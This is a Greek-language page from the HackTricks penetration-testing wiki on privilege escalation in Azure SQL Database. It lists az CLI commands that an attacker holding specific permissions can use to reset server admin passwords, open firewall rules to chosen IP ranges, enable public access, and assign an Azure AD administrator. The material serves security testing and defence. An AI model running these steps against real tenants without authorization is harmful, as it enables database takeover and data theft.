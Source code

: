 # Az - SQL Database Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Privesc

Για περισσότερες πληροφορίες σχετικά με τη SQL Database, ελέγξτε:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### "Microsoft.Sql/servers/read" && "Microsoft.Sql/servers/write"

Με αυτές τις άδειες, ένας χρήστης μπορεί να εκτελέσει κλιμάκωση προνομίων ενημερώνοντας ή δημιουργώντας Azure SQL servers και τροποποιώντας κρίσιμες ρυθμίσεις, συμπεριλαμβανομένων των διαπιστευτηρίων διαχειριστή. Αυτή η άδεια επιτρέπει στον χρήστη να ενημερώνει τις ιδιότητες του διακομιστή, συμπεριλαμβανομένου του κωδικού πρόσβασης του διαχειριστή SQL server, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση ή έλεγχο του διακομιστή. Μπορούν επίσης να δημιουργήσουν νέους διακομιστές, ενδεχομένως εισάγοντας σκιασμένη υποδομή για κακόβουλους σκοπούς. Αυτό γίνεται ιδιαίτερα κρίσιμο σε περιβάλλοντα όπου η "Microsoft Entra Authentication Only" είναι απενεργοποιημένη, καθώς μπορούν να εκμεταλλευτούν την SQL-based authentication για να αποκτήσουν απεριόριστη πρόσβαση.
```bash
# Change the server password
az sql server update \
--name <server_name> \
--resource-group <resource_group_name> \
--admin-password <new_password>

# Create a new server
az sql server create \
--name <new_server_name> \
--resource-group <resource_group_name> \
--location <location> \
--admin-user <admin_username> \
--admin-password <admin_password>
```
Επιπλέον, είναι απαραίτητο να έχετε ενεργοποιημένη την δημόσια πρόσβαση αν θέλετε να έχετε πρόσβαση από ένα μη ιδιωτικό σημείο, για να το ενεργοποιήσετε:
```bash
az sql server update \
--name <server-name> \
--resource-group <resource-group> \
--enable-public-network true
```
### "Microsoft.Sql/servers/firewallRules/write"

Ένας επιτιθέμενος μπορεί να χειριστεί τους κανόνες τείχους προστασίας στους Azure SQL servers για να επιτρέψει μη εξουσιοδοτημένη πρόσβαση. Αυτό μπορεί να εκμεταλλευτεί για να ανοίξει τον διακομιστή σε συγκεκριμένες διευθύνσεις IP ή σε ολόκληρες περιοχές διευθύνσεων IP, συμπεριλαμβανομένων των δημόσιων IPs, επιτρέποντας την πρόσβαση σε κακόβουλους παράγοντες. Αυτή η δραστηριότητα μετά την εκμετάλλευση μπορεί να χρησιμοποιηθεί για να παρακαμφθούν οι υπάρχοντες ελέγχοι ασφαλείας δικτύου, να καθιερωθεί επιμονή ή να διευκολυνθεί η οριζόντια κίνηση εντός του περιβάλλοντος εκθέτοντας ευαίσθητους πόρους.
```bash
# Create Firewall Rule
az sql server firewall-rule create \
--name <new-firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <start-ip-address> \
--end-ip-address <end-ip-address>

# Update Firewall Rule
az sql server firewall-rule update \
--name <firewall-rule-name> \
--server <server-name> \
--resource-group <resource-group> \
--start-ip-address <new-start-ip-address> \
--end-ip-address <new-end-ip-address>
```
Επιπλέον, η άδεια `Microsoft.Sql/servers/outboundFirewallRules/delete` σας επιτρέπει να διαγράψετε έναν κανόνα τείχους προστασίας.  
ΣΗΜΕΙΩΣΗ: Είναι απαραίτητο να έχετε ενεργοποιημένη την δημόσια πρόσβαση.

### ""Microsoft.Sql/servers/ipv6FirewallRules/write"

Με αυτή την άδεια, μπορείτε να δημιουργήσετε, να τροποποιήσετε ή να διαγράψετε κανόνες τείχους προστασίας IPv6 σε έναν Azure SQL Server. Αυτό θα μπορούσε να επιτρέψει σε έναν επιτιθέμενο ή εξουσιοδοτημένο χρήστη να παρακάμψει τις υπάρχουσες ρυθμίσεις ασφαλείας δικτύου και να αποκτήσει μη εξουσιοδοτημένη πρόσβαση στον διακομιστή. Προσθέτοντας έναν κανόνα που επιτρέπει την κυκλοφορία από οποιαδήποτε διεύθυνση IPv6, ο επιτιθέμενος θα μπορούσε να ανοίξει τον διακομιστή σε εξωτερική πρόσβαση.
```bash
az sql server firewall-rule create \
--server <server_name> \
--resource-group <resource_group_name> \
--name <rule_name> \
--start-ip-address <start_ipv6_address> \
--end-ip-address <end_ipv6_address>
```
Επιπλέον, η άδεια `Microsoft.Sql/servers/ipv6FirewallRules/delete` σας επιτρέπει να διαγράψετε έναν κανόνα τείχους προστασίας.  
ΣΗΜΕΙΩΣΗ: Είναι απαραίτητο να έχετε ενεργοποιημένη την δημόσια πρόσβαση.

### "Microsoft.Sql/servers/administrators/write" && "Microsoft.Sql/servers/administrators/read"

Με αυτές τις άδειες μπορείτε να κάνετε privesc σε ένα περιβάλλον Azure SQL Server αποκτώντας πρόσβαση σε SQL βάσεις δεδομένων και ανακτώντας κρίσιμες πληροφορίες. Χρησιμοποιώντας την παρακάτω εντολή, ένας επιτιθέμενος ή εξουσιοδοτημένος χρήστης μπορεί να ορίσει τον εαυτό του ή έναν άλλο λογαριασμό ως τον διαχειριστή Azure AD. Εάν είναι ενεργοποιημένη η "Μόνο Αυθεντικοποίηση Microsoft Entra", μπορείτε να αποκτήσετε πρόσβαση στον διακομιστή και τις παρουσίες του. Ακολουθεί η εντολή για να ορίσετε τον διαχειριστή Azure AD για έναν SQL διακομιστή:
```bash
az sql server ad-admin create \
--server <server_name> \
--resource-group <resource_group_name> \
--display-name <admin_display_name> \
--object-id <azure_subscribtion_id>
```
### "Microsoft.Sql/servers/azureADOnlyAuthentications/write" && "Microsoft.Sql/servers/azureADOnlyAuthentications/read"

Με αυτές τις άδειες, μπορείτε να ρυθμίσετε και να επιβάλετε την "Μόνο Αυθεντικοποίηση Microsoft Entra" σε έναν Azure SQL Server, κάτι που θα μπορούσε να διευκολύνει την κλιμάκωση προνομίων σε ορισμένα σενάρια. Ένας επιτιθέμενος ή ένας εξουσιοδοτημένος χρήστης με αυτές τις άδειες μπορεί να ενεργοποιήσει ή να απενεργοποιήσει την αυθεντικοποίηση μόνο μέσω Azure AD.
```bash
#Enable
az sql server azure-ad-only-auth enable \
--server <server_name> \
--resource-group <resource_group_name>

#Disable
az sql server azure-ad-only-auth disable \
--server <server_name> \
--resource-group <resource_group_name>
```
{{#include ../../../banners/hacktricks-training.md}}
